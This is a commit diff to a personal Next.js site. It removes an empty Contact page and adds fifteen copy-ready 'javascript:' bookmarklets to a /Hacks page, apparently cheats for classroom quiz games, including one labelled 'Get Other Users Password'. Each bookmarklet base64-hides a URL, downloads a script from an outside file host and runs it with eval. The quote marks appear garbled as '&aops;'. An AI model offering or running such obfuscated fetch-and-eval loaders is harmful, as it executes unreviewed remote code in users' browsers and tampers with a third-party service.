

Before and after one commit to JeremiahISDev/jeremiahisamuel, a Next.js app: page /Hacks in a window 1280 px wide. Shown: the part 1460-3380 px from the top of the page at 81% size, without its empty margins (319-959 px from the left). Before the commit the page ends 1396 px from the top, so only its background shows below. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
complete

```diff
--- a/pages/Contact.js
+++ /dev/null
@@ -1,15 +0,0 @@
-import Head from 'next/head';
-export default function Contact() {
-  return (
-    <>
-    <Head>
-    <title>Contact | JIS Media Pro</title>
-    </Head>
-
-    <div className="">
-
-     </div>
-
-     </>
-  )
-}
--- a/pages/Hacks.js
+++ b/pages/Hacks.js
@@ -90,6 +90,149 @@ export default function Hacks() {
           </pre>
         </div>
 
+        <div className="p-4 mx-4 mb-4 rounded-lg hover:shadow-2xl text-center">
+          <div className="pb-4"><strong>(Crypto Hack) </strong>Get Crypto</div>
+          <pre className="select-all  prettyprint lang-js rounded-lg p-4 w-full truncate text-white">
+            <code>
+              javascript:fetch(atob(&aops;aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjE0L2NyeXB0b0dldENyeXB0by5qcw==&aops;)).then((res) =&gt; res.text().then((t) =&gt; eval(t)))
+            </code>
+          </pre>
+        </div>
+
+         <div className="p-4 mx-4 mb-4 rounded-lg hover:shadow-2xl text-center">
+          <div className="pb-4"><strong>(Crypto Hack) </strong>Get Other Users Password</div>
+          <pre className="select-all  prettyprint lang-js rounded-lg p-4 w-full truncate text-white">
+            <code>
+              javascript:fetch(atob(&aops;aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2NyeXB0b0hhY2tQYXNzd29yZHMuanM=&aops;)).then((res) =&gt; res.text().then((t) =&gt; eval(t)))
+            </code>
+          </pre>
+        </div>
+
+         <div className="p-4 mx-4 mb-4 rounded-lg hover:shadow-2xl text-center">
+          <div className="pb-4"><strong>(Factory) </strong>Get Mega Bot</div>
+          <pre className="select-all  prettyprint lang-js rounded-lg p-4 w-full truncate text-white">
+            <code>
+              javascript:fetch(atob(&aops;aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2ZhY3RvcnlHZXRNZWdhQm90Lmpz&aops;)).then((res) =&gt; res.text().then((t) =&gt; eval(t)))
+            </code>
+          </pre>
+        </div>
+
+         <div className="p-4 mx-4 mb-4 rounded-lg hover:shadow-2xl text-center">
+          <div className="pb-4"><strong>(Factory) </strong>Get Cash</div>
+          <pre className="select-all  prettyprint lang-js rounded-lg p-4 w-full truncate text-white">
+            <code>
+              javascript:fetch(atob(&aops;aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2ZhY3RvcnlHZXRDYXNoLmpz&aops;)).then((res) =&gt; res.text().then((t) =&gt; eval(t)))
+            </code>
+          </pre>
+        </div>
+
+        <div className="p-4 mx-4 mb-4 rounded-lg hover:shadow-2xl text-center">
+          <div className="pb-4"><strong>(Fishing Frenzy) </strong>Set Weight</div>
+          <pre className="select-all  prettyprint lang-js rounded-lg p-4 w-full truncate text-white">
+            <code>
+              javascript:fetch(atob(&aops;aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2Zpc2hpbmdGcmVuenlTZXRXZWlnaHQuanM=&aops;)).then((res) =&gt; res.text().then((t) =&gt; eval(t)))
+            </code>
+          </pre>
+        </div>
+
+        <div className="p-4 mx-4 mb-4 rounded-lg hover:shadow-2xl text-center">
+          <div className="pb-4"><strong>(Gold Quest) </strong>Get Gold</div>
+          <pre className="select-all  prettyprint lang-js rounded-lg p-4 w-full truncate text-white">
+            <code>
+              javascript:fetch(atob(&aops;aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dvbGRHZXRHb2xkLmpz&aops;)).then((res) =&gt; res.text().then((t) =&gt; eval(t)))
+            </code>
+          </pre>
+        </div>
+
+                <div className="p-4 mx-4 mb-4 rounded-lg hover:shadow-2xl text-center">
+          <div className="pb-4"><strong>(Gold Quest) </strong>Chest ESP</div>
+          <pre className="select-all  prettyprint lang-js rounded-lg p-4 w-full truncate text-white">
+            <code>
+              javascript:fetch(atob(&aops;aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dvbGRDaGVzdEVTUC5qcw==&aops;)).then((res) =&gt; res.text().then((t) =&gt; eval(t)))
+            </code>
+          </pre>
+        </div>
+
+        <div className="p-4 mx-4 mb-4 rounded-lg hover:shadow-2xl text-center">
+          <div className="pb-4"><strong>(Racing) </strong>Instant Win</div>
+          <pre className="select-all  prettyprint lang-js rounded-lg p-4 w-full truncate text-white">
+            <code>
+              javascript:fetch(atob(&aops;aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL3JhY2luZ0luc3RhbnRXaW4uanM=&aops;)).then((res) =&gt; res.text().then((t) =&gt; eval(t)))
+            </code>
+          </pre>
+        </div>
+
+        <div className="p-4 mx-4 mb-4 rounded-lg hover:shadow-2xl text-center">
+          <div className="pb-4"><strong>(Tower Defense) </strong>Change Game Round</div>
+          <pre className="select-all  prettyprint lang-js rounded-lg p-4 w-full truncate text-white">
+            <code>
+              javascript:fetch(atob(&aops;aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjE0L3RkQ2hhbmdlR2FtZVJvdW5kLmpz&aops;)).then((res) =&gt; res.text().then((t) =&gt; eval(t)))
+            </code>
+          </pre>
+        </div>
+
+        <div className="p-4 mx-4 mb-4 rounded-lg hover:shadow-2xl text-center">
+          <div className="pb-4"><strong>(Tower Defense) </strong>Clear Enemies</div>
+          <pre className="select-all  prettyprint lang-js rounded-lg p-4 w-full truncate text-white">
+            <code>
+              javascript:fetch(atob(&aops;aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL3RkQ2xlYXJFbmVtaWVzLmpz&aops;)).then((res) =&gt; res.text().then((t) =&gt; eval(t)))
+            </code>
+          </pre>
+        </div>
+
+        <div className="p-4 mx-4 mb-4 rounded-lg hover:shadow-2xl text-center">
+          <div className="pb-4"><strong>(Tower Defense) </strong>Get Cash</div>
+          <pre className="select-all  prettyprint lang-js rounded-lg p-4 w-full truncate text-white">
+            <code>
+              javascript:fetch(atob(&aops;aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL3RkR2V0Q2FzaC5qcw==&aops;)).then((res) =&gt; res.text().then((t) =&gt; eval(t)))
+            </code>
+          </pre>
+        </div>
+
+        <div className="p-4 mx-4 mb-4 rounded-lg hover:shadow-2xl text-center">
+          <div className="pb-4"><strong>(Tower of Doom) </strong>Add Coins</div>
+          <pre className="select-all  prettyprint lang-js rounded-lg p-4 w-full truncate text-white">
+            <code>
+              javascript:fetch(atob(&aops;aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjE0L3RvZEFkZENvaW5zLmpz&aops;)).then((res) =&gt; res.text().then((t) =&gt; eval(t)))
+            </code>
+          </pre>
+        </div>
+
+        <div className="p-4 mx-4 mb-4 rounded-lg hover:shadow-2xl text-center">
+          <div className="pb-4"><strong>(Tower of Doom) </strong>Lower Enemy Strength</div>
+          <pre className="select-all  prettyprint lang-js rounded-lg p-4 w-full truncate text-white">
+            <code>
+              javascript:fetch(atob(&aops;aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjE0L3RvZExvd2VyRW5lbXlTdHJlbmd0aC5qcw==&aops;)).then((res) =&gt; res.text().then((t) =&gt; eval(t)))
+            </code>
+          </pre>
+        </div>
+
+        <div className="p-4 mx-4 mb-4 rounded-lg hover:shadow-2xl text-center">
+          <div className="pb-4"><strong>(Tower of Doom) </strong>Lower All Enemy Stats</div>
+          <pre className="select-all  prettyprint lang-js rounded-lg p-4 w-full truncate text-white">
+            <code>
+              javascript:fetch(atob(&aops;aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDY2OTkyL3RvZExvd2VyQWxsRW5lbXlTdGF0cy5qcw==&aops;)).then((res) =&gt; res.text().then((t) =&gt; eval(t)))
+            </code>
+          </pre>
+        </div>
+
+        <div className="p-4 mx-4 mb-4 rounded-lg hover:shadow-2xl text-center">
+          <div className="pb-4"><strong>(Tower of Doom) </strong>Lower Enemy Charisma</div>
+          <pre className="select-all  prettyprint lang-js rounded-lg p-4 w-full truncate text-white">
+            <code>
+             javascript:fetch(atob(&aops;aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjE0L3RvZExvd2VyRW5lbXlDaGFyaXNtYS5qcw==&aops;)).then((res) =&gt; res.text().then((t) =&gt; eval(t)))
+            </code>
+          </pre>
+        </div>
+
+        <div className="p-4 mx-4 mb-4 rounded-lg hover:shadow-2xl text-center">
+          <div className="pb-4"><strong>(Tower of Doom) </strong>Lower Enemy Wisdom</div>
+          <pre className="select-all  prettyprint lang-js rounded-lg p-4 w-full truncate text-white">
+            <code>
+             javascript:fetch(atob(&aops;aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjE0L3RvZExvd2VyRW5lbXlXaXNkb20uanM=&aops;)).then((res) =&gt; res.text().then((t) =&gt; eval(t)))
+            </code>
+          </pre>
+        </div>
       </div>
 
     </>
```
Also changed, not shown: 1 other file (tests, documents, lock files or other folders).
